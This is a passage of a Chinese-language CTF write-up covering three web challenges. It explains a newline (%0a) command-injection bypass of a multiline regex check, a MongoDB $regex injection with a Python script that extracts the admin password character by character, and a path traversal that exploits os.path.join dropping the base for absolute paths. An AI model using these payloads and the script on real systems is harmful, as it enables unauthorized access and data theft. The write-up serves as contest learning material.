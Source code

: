 开始我以为是正则回溯绕过，之后才发现这里是`if (true)`进入分支。这里由于正则标志位m的存在，不同行间有一个匹配上就成功，所以`%0a`截断后传入`more /[f]lag`即可

***

### Injection?

先看到hint，说不是`sql注入`......难道nosql（not only sql）不算sql吗。我直接钻进死路想着是不是跟`PHP Session`注入啥的有关系，然后就在PHPinfo页面找session想关

`MongoDB`我原来开发用它做过后端数据库，也学习过它的注入，可见原来的[博文](http://iv4n.xyz/mongo/)

这个题`passwd[$regex]=^xxx`，和SQL一样的正则注入即可，但是它有验证码，我一直以来对待验证码都是半自动手工识别（原来写爬虫被`tesseract`的端到端识别率伤害过...），用`opencv`库的`waitKey`函数来连续打码，脚本如下（没有写验证码错误的处理逻辑）：

```python
import requests
import cv2

url = "http://123.206.213.66:45678/index.php"
c_url = "http://123.206.213.66:45678/vertify.php"
l_url = "http://123.206.213.66:45678/check.php?username=admin&password[$regex]=^{0}&vertify={1}"

s = requests.Session()
s.get(url)
flag = ""

for i in range(10):
    for j in "abcd....xyz":
        with open("captcha.png", "wb") as fp:
            r = s.get(c_url)
            fp.write(r.content)
        img = cv2.imread("captcha.png")
        cv2.imshow("a", img)
        captcha = ""
        if cv2.waitKey(0) == 32:
            cv2.destroyAllWindows()
            captcha = input("captcha: ")
        r = s.get(l_url.format(flag+j, captcha))
        print(r.text)
        if "incorrect" not in r.text:
            flag += j
            break
    print(flag)


```

***

### 皇家线上赌场

这道题真是让我涨姿势

有一个文件读取接口，但它会在传入的参数前`join`一个路径，我赛中一直想怎么绕过对`..`的过滤，而我真的不知道传入绝对路径时`os.path.join`方法会不拼接路径
